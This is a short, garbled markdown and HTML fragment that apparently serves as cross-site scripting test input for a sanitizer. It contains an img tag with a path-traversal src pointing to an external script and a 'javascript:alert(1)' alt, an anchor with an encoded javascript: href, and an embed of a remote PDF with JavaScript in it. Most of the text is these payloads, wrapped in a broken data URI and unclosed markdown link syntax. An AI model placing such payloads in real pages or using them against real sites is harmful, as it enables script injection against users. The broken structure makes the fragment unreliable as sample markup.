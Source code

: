 ![

<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="javascript:alert(1)"/>

<a href="\"javascript%3aalert(1)">Click Here</a>
<embed src="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">

](()
